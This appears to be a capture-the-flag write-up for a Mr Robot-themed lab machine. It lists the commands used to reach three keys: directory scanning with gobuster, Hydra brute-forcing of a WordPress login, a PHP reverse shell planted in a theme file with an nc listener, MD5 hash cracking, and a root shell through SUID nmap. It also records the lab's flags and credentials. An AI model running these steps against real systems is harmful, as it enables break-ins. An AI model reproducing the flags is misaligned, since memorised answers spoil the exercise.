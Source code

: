 # key 1
hidden file `/robots.txt` found with gobuster  
`gobuster dir -u url -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.js,.txt`

<details>
<summary>flag</summary>
key-1-of-3.txt -- 073403c8a58a1f80d943455fb30724b9
</details>

# key 2
found wordpress login website with gobuster and wappalyzer
cracked login with hydra and the `fsociety.dic` found in `robots.txt`

#### Username
`hydra -L fsociety.dic -p test url http-post-form "/wp-login.php:log=^User^&pwd=^PASS^:Invalid username" -t 30`  
`Elliot`
#### Password
`hydra -l Elliot -P fsocity.dic url http-post-form "/wp-login.php:log=^User^&pwd=^PASS^:Invalid username" -t 30`  
`ER28-0652`

php reverse shell via `http://10.10.109.29/wp-content/themes/twentyfifteen/archive.php`
uploaded the code to the archive in the editor and listened via `nc -lvnp port`

stable shell via `python -c 'import pty; pty.spawn("/bin/bash")'`

found `password.raw-md5` -- `robot:c3fcd3d76192e4007dfb496cca67e13b`

`hash-identifier` and inserted the hash above --> `abcdefghijklmnopqrstuvwxy`

login `robot` - `abcdefghijklmnopqrstuvwxy`

<details>
<summary>flag</summary>
key-2-of-3.txt -- 822c73956184f694993bede3eb39f959
</details>

# key 3
searched for vulnerabilitys via SUID with `find / -perm /4000 2>/dev/null`
found `/usr/local/bin/nmap`
found nmap vulnerability on `GTFOBins`
`/usr/local/bin/nmap --interactive`  
`!sh` for root access

searched with for the third key `find / -iname key-3-of-3.txt 2>/dev/null` in `/root/key-3-of-3.txt`  

<details>
<summary>flag</summary>
key-3-of-3.txt -- 04787ddef27c3dee1ee161b21670b4e4
</details>

